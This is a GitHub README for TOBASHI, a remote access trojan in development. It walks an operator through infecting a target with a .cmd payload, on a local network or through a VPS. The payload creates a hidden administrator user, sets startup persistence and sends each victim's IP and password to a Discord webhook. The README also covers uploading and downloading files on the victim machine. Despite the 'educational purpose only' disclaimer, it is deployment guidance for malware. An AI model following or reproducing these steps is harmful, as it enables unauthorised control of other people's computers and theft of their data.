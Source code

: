 # TOBASHI 戸橋
TOBASHI is a RAT (Remove Access Tool) including payloads and control panel. [IN DEVELOPMENT]

## Information

This tool is for educational purpose only, the usage of TOBASHI without mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage cause by this program.

## Features

- Remote multiple Connections
- Upload / Download files
- Local / VPS extension
- Persistence


[In development]

- Obfuscator
- Keylogger

## Configuration file

*Every target has a configuration file in .txt that will be send on your personnal discord server.* This configuration file is changing depending if you are remoting localy or outside your local network. The local file

### Example of a local configuration file :

*Here is the john local configuration file :*

```shell
Guest         # Name of the new user on the target machine (Guest by default)
192.168.0.5   # Local IP adress of the target
oUghflmDbp    # Random password generated for the connection
local         # Type of connection
```

### Example of a remote configuration file :

*Here is the doe remote configuration file :*
```shell
Guest           # Name of the new user on the target machine (Guest by default)
192.168.0.5     # Local IP adress of the target machine
oUpECuWPwL      # Random password generated for the connection
C:\Users\doe\AppData\Local\Temp   # Temp path
C:\Users\doe\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\[startup].cmd    # Startup path
X.X.X.X        # VPS IP adress
2583           # Remote Port (By default)
remote         # Type of connection
```

# Installation

In order to install *TOBASHI*, please follow the steps : 

• **Git clone**

```shell
git clone https://github.com/flamendO/TOBASHI-.git
cd TOBASHI-/
python requirements.py
```

• **Start TOBASHI**

```shell
./tobashi.sh
```

# Discord configuration

In order to receive configuration files, you need to create a **discord** server. After that, create a webhook called **tobashiconsole** (the name of the salon can be different).

- To create a new discord webhook, go to your discord server settings, into *Integrations* and *Webhooks*, Then *New Webhook*.
- When you have your discord *webhook*, copy the link of your webhook and paste it in the **discord file** :

```shell
TOBASHI-/discord_config/discord
```
• When it's done, start the program, and select **discord** option, then click **Enter** to validate your discord webhook link.

# Infect in a LOCAL network

After the discord configuration set, infect your **target** with */src/initial_local.cmd*. When it's done, you should receive on your discord server a *user local configuration*, download the file and put it in the folder */users/local/*. You can now go to the program menu, select first the option **user**, choose **local** and the name of the user. **NOTE :** to choose, donc take the *.txt* at the end. For exemple, if you have a user configuration file called *john.txt*, you'll type in **user** option : *john*.

When it's done, you can go to the **console** option !


# Infect in a NON-LOCAL network

## VPS Configuration

In order to remote outside your *network*, you have to work with a **VPS**. To configure **TOBASHI** with your **VPS**, go to the start menu, and select the option **vps**.

- Follow step inside the program : write your *VPS IP*, *VPS username*, and *VPS password*.
- The program will automaticaly download features on your *VPS* server, and set the payload updated.

When it's done, you are ready to infect your target.

## Infect machine

Now, you are ready to infect, these are the same steps as for a local network. When the target opens the file, you'll receive a *user remote configuration*, that you put in the folder *users/vps/*. Then you can go to the program menu, select first the option **user**, choose **vps** and the name of the user. **NOTE :** to choose, donc take the *.txt* at the end. For exemple, if you have a user configuration file called *john.txt*, you'll type in **user** option : *john*.

When it's done, you can go to the **console** option !


# Download / Upload Option

In order to **download** or **upload** files from/to the target machine, click to the option **download** or **upload**. Follow steps. Be aware of the path of directories, use **/** and **NOT \** (question of encoding).

- **Download files** will automatically go to the folder *download_files/**target_name**/* .

# Reset settings

You might want to change your **vps or discord** settings. To do so, select the option **reset**. Then choose if you want to reset your *vps, discord* or both settings. 

# Errors that might appear

The main error that you can actually have is due your pc language. Actually in a step in the files **stage2.cmd , stage2_v.cmd**, there is this line :

```shell
Add-LocalGroupMember -Group "Administrateurs" -Member $JhfuihdfOm
```

If you are english, change **"Administrateurs"** by **"Administrators"**.






